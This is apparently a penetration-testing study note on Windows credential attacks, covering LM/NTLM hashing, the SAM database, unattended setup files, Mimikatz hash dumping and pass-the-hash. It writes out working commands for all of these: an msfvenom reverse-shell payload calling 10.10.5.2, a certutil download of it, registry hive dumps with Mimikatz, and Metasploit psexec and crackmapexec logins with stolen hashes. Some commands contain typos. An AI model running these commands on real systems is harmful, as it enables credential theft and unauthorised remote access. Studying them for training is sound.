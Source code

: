 --- 
## Windows Password Hashes

-  The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.

-  Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.

-  Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).

-  Windows versions up to Windows Server 2003 utilize two different types of hashes:
	+ LM
	+ NTLM

- Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

### SAM Database
 SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.

-  The SAM database file cannot be copied while the operating system is running.

- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
-  In modern versions of Windows, the SAM database is encrypted with a syskey.

> **Note:** Elevated/Administrative privileges are required in order to access and interact with the LSASS process.

### LM (LanMan)

 - LM is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.

- The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps:
	+ The password is broken into two seven-character chunks.
	+ All characters are then converted into uppercase.
	+ Each chunk is then hashed separately with the DES algorithm.

- LM hashing is generally considered to be a weak protocol and can easily be cracked, primarily because the password hash does not include salts, consequently making brute force and rainbow table attacks effective against LM hashes.

![[Pasted image 20230414111830.png]]


### NTLM (NTHash)
 NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.

-  From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM
hashing.

 - When a user account is created, it is encrypted using the MD4 hashing algorithm, while
the original password is disposed of.

- NTLM improves upon LM in the following ways:
	+ Does not split the hash in to two chunks.
	+ Case sensitive.
	+ Allows the use of symbols and unicode characters.

![[Pasted image 20230414111926.png]]

## Windows Configuration Files

 Windows can automate a variety of repetitive tasks, such as the mass rollout or
installation of Windows on many systems.

 This is typically done through the use of the Unattended Windows Setup utility,
which is used to automate the mass installation/deployment of Windows on
systems.

-  This tool utilizes configuration files that contain specific configurations and user
account credentials, specifically the Administrator account’s password.

 - If the **Unattended Windows Setup** configuration files are left on the target
system after installation, they can reveal user account credentials that can be
used by attackers to authenticate with Windows target legitimately.

### Unattended Windows Setup

The Unattended Windows Setup utility will typically utilize one of the following
configuration files that contain user account and system configuration
information:

	 C:\Windows\Panther\Unattend.xml
	 C:\Windows\Panther\Autounattend.xml


``` bash 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f :xo > payload.exe

 python -m SimpleHTTPServer 80
```

``` powershell
certutil -urlcache -f http://10.10.5.2/payload.exe payload.exe
```


``` bash
meterpreter > search -f Unattend.xml
```

![[Pasted image 20230414115058.png]]
-  As a security precaution, the passwords stored in the Unattended Windows
Setup configuration file may be **encoded in base64.**

## Dumping Hashes With Mimikatz

### [Mimikatz](https://github.com/ParrotSec/mimikatz)

Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.

 - The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.

- Mimikatz can be **used to extract hashes from the lsass.exe** process memory where hashes are cached.

- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension **Kiwi**.

> **Note:** Mimikatz will require elevated privileges in order to run correctly.

### [Steps To use Mimikatz](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a)
1. We need to extract and copy the SYSTEM and SAM registry hives for the local machine.  We do this by running `“reg save hklm\sam filename1.hiv”` and `“reg save hklm\security filename2.hiv”`


2. We must run at elevated privileges for the command to run successfully.  We do this by running `“privilege::debug”` and then `“token::elevate”`.

3. Now we can run the `“lsadump::sam filename1.hiv filename2.hiv”` from step 1 above successfully.  It will display the username and hashes for all local users.

4. Navigate to the directory where mimikatz is located on your machine.  In my instance it’s located in `C:\Users\BarryVista\Downloads\mimikatz\x64`.  Here you will find the output in the hash.txt file.
``` powershell
> reg save hklm\sam filename1.hiv
> reg save hklm\security filename2.hiv

> mimikatz
mimikatz > privilege::debug
mimikatz > token::elevate
mimikatz > lsadump::sam filename1.hiv filename2.hiv

```

### Pass-The-Hash Attacks

Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
+ We can use multiple tools to facilitate a Pass-The-Hash attack:
	1.  Metasploit PsExec module
	2. Crackmapexec

+ This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation

### Steps to accompliche Pass-the-hash Attack:

1. Steal password hashes
2. Authenticate using a stolen password hash
3. Access other resources

``` bash
msf > use exploit/windows/smb/psexec

msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBUser  Administrator
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
```

```bash 
cracknapexec smb 10.10.10.4 -u Ryan -H 09238831blaf5edab93c773f56409d96 
```